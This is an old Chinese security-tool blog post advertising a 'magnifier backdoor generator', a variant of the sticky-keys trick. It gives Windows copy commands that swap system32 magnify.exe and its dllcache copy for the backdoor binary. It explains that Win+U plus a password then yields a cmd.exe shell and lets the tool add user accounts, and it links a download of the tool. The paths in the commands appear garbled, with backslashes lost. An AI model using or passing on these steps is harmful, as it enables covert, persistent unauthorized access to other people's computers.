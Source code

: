 ```yaml
---
title: 放大镜后门生成器
description: 夜火：和以前的2000/xp/vista下5次shift的粘滞键利用差不多，感觉这个比人人皆知的shift后门要好上许多。。。感觉，感觉而已~
date: 2008-04-12 10:57:00
category: 安全工具
tags: ['后门', '生成器']
post_id: 448
alias: Magnifying-glass-backdoor-generator
ViewNums: 5790
---
```


[夜火](/blog/)：和以前的[2000/xp/vista下**5**次**shift**的粘滞键利用](/blog/5shift-sethc)差不多，感觉这个比人人皆知的[shift后门](/blog/5-shift-backdoor-3389)要好上许多。。。感觉，感觉而已~

设本程序为ivy.exe则运行以下命令即可

copy %systemroot%system32magnify.exe %systemroot%system32
agnify.exe
copy ivy.exe %systemroot%system32magnify.exe
copy ivy.exe %systemroot%system32dllcachemagnify.exe

注：win+u，选择放大镜，输入你设定的后门启动密码，可执行cmd.exe和程序自己添加自定义用户（调用API防止cmd.exe被禁用）

![](http://pic.yupoo.com/sunlei/169855529633/kmtspxfr.jpg)

下载地址：[ivy.rar](/blog/download.asp?id=67 "http://201314.free.fr/attachments/200803/ivy.rar")

来源：红狼论坛

